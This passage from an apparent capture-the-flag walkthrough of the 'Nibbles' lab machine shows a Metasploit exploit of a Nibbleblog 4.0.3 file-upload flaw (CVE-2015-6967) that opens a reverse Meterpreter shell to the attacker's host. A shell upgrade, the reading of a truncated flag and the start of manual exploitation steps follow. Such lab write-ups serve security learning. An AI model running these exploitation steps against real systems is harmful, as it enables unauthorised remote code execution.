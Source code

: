     Payload information:

    Description:
      Nibbleblog contains a flaw that allows an authenticated remote
      attacker to execute arbitrary PHP code. This module was tested on
      version 4.0.3.

    References:
      http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.md

    msf exploit(multi/http/nibbleblog_file_upload) > run
    [*] Started reverse TCP handler on 10.10.14.157:4444
    [*] Sending stage (37543 bytes) to 10.10.10.75
    [*] Meterpreter session 2 opened (10.10.14.157:4444 -> 10.10.10.75:56052) at 2018-03-08 20:51:40 -0500
    [+] Deleted image.php
    meterpreter > shell
    Process 3816 created.
    Channel 0 created.
    id
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)



### user.txt

From there, we'll upgrade our shell, and then get user.txt:



    python -c 'import pty;pty.spawn("/bin/bash")'
    /bin/sh: 1: python: not found
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    nibbler@Nibbles:/var/www.md/nibbleblog/content/private/plugins/my_image$ cd /home
    nibbler@Nibbles:/home$ ls
    nibbler

    nibbler@Nibbles:/home$ cd nibbler

    nibbler@Nibbles:/home/nibbler$ ls
    personal  personal.zip  user.txt

    nibbler@Nibbles:/home/nibbler$ wc -c user.txt
    33 user.txt

    nibbler@Nibbles:/home/nibbler$ cat user.txt
    b02ff32b...



### Without Metasploit

[This
blog](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.md)
provides a good write up of CVE-2015-6967, and how to exploit it.

1.  Obtain admin credentials - we already have this.
2.  Activate the "My image" plugin. If we click on "Plugings" on the
    menu on the left side of the admin page, it takes us to a list of
    installed plugins: